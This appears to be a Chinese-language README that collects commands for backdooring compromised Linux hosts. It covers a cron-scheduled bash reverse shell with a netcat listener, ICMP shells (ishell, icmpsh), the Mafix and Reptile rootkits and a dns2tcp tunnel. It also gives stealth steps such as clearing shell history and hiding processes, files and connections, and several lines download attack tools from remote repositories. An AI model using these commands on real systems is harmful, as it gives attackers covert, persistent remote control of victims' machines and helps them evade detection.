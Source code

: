 # backdoor

****************************************************
1、 Bash TCP反弹后门<br>
bash_tcp_backdoor.sh<br>
vim /etc/crontab<br>
*/1 * * * * root /root/ok.sh<br>
或<br>
crontab -e<br>
*/1 * * * *  /root/ok.sh<br>
systemctl restart crond<br>
控制机执行<br>
nc -l -v -p 5353

****************************************************
2、icmp shell无端口后门<br>
原文：https://www.cnblogs.com/bravexz/p/9761411.html<br>
wget http://prdownloads.sourceforge.net/icmpshell/ish-v0.2.tar.gz<br>
tar -zxvf ish-v0.2.tar.gz<br>
cd ISHELL-v0.2/<br>
make && make linux<br>
make linux<br>
肉鸡192.168.1.28上执行命令：<br>
./ishd -i 555 -t 0 -p 1099 &<br>
控制机执行：<br>
./ish -i 555 -t 0 -p 1099 192.168.1.28<br>
命令解释：<br>
-i 指定ID，标识自己的请求<br>
-t 指定icmp数据的类型 <br>
-p 指定 icmp 数据 包大小 ,一般 情况下 1024 即可<br>

****************************************************
3、icmpsh后门<br>
pip install impacket<br>
git clone https://github.com/inquisb/icmpsh.git<br>
cd icmpsh<br>
./run.sh<br>
控制端运行：<br>
python icmpsh_m.py 192.168.1.28 192.168.1.41<br>
#./icmpsh-m.py <控制机IP> <肉鸡IP><br>
sz icmpsh.exe到本地<br>
C:\>icmpsh.exe -t 192.168.1.28 -d 600 -b 20 -s 256   //指向控制机<br>

https://blog.csdn.net/Fly_hps/article/details/80627628<br>
https://www.jianshu.com/p/3bdf8c5557e8<br>
https://www.cnblogs.com/bravexz/p/9761411.html<br>
https://github.com/sevck/icmp_Tunnel<br>
https://blog.csdn.net/qq_33020901/article/details/81773737<br>

****************************************************
4、mafix.tar.gz  rootkit后门<br>
Mafix是一款常用的轻量应用级别Rootkits，是通过伪造ssh协议漏洞实现让攻击者远程登陆的，特点是配置简单并可以自定义验证密码和端口号。
kali 下测试通过，centos7不兼容<br>
wget https://github.com/synjkc/backdoor/blob/master/mafix.tar.gz<br>
tar -zxvf mafix.tar.gz<br>
cd mafix<br>
./root xiaoma 9999<br>

安装rootkit 命令：./root 密码  端口   (如: ./root xiaoma 9999  接着用ssh连接它的9999端口，用户名是root，密码为xiaoma)
安装完成后会自动删除目录，为了隐蔽，用 history -c 清除下命令就行了<br>
控制端执行： ssh ip -p9999

*******************************************************************<br>
5、Reptile Linux rootkit后门<br>
肉鸡上安装：<br>
git clone https://github.com/f0rb1dd3n/Reptile.git<br>
cd Reptile<br>
./setup.sh install<br>
卸载<br>
./setup.sh remove<br>
隐藏进程: /reptile/reptile_cmd hide <pid> <br>
显示进程: /reptile/reptile_cmd show <pid><br>
隐藏udp: /reptile/reptile_cmd udp <IP> <port> hide <br>
显示udp: /reptile/reptile_cmd udp <IP> <port> show<br>
隐藏tcp: /reptile/reptile_cmd tcp <IP> <port> hide <br>
显示tcp: /reptile/reptile_cmd tcp <IP> <port> show<br>
还可以隐藏文件 所有包含 reptile 这个字符的文件会被隐藏，这个字符可以在配置文件中修改。<br><br>

Kali上安装控制端<br>
./setup.sh client<br>
项目地址：https://github.com/f0rb1dd3n/Reptile<br>
https://carlstar.club/2019/04/09/rep/#on-vulnerable-ubuntu-192-168-5-148<br>
https://3hack.com/tools/85.html
*******************************************************************<br>
6、服务端Kali 192.168.1.28,自带dns2tcp工具<br>
设置A记录 dns28.xxx.com到Kail<br>
服务端设置<br>
root@kali:~# cat /etc/dns2tcpd.conf<br>
listen = 0.0.0.0<br>
port = 53<br>
user = nobody<br>
chroot = /tmp<br>
domain = dns28.xxx.com<br>
resources = c2:127.0.0.1:5353 , ssh:127.0.0.1:22 , smtp:127.0.0.1:25<br>
服务端运行：root@kali:~# dns2tcpd -f /etc/dns2tcpd.conf -F -d 1<br><br>
https://github.com/synjkc/backdoor/blob/master/dns2tcpc_client_win.zip<br>
客户端运行：<br>
dns2tcpc -r ssh -z dns28.xxx.com 192.168.1.28 -l 8888 -d 2<br><br>
本地win10运行[c:\~]$ ssh 127.0.0.1 2222，即可连接到Kali<br>
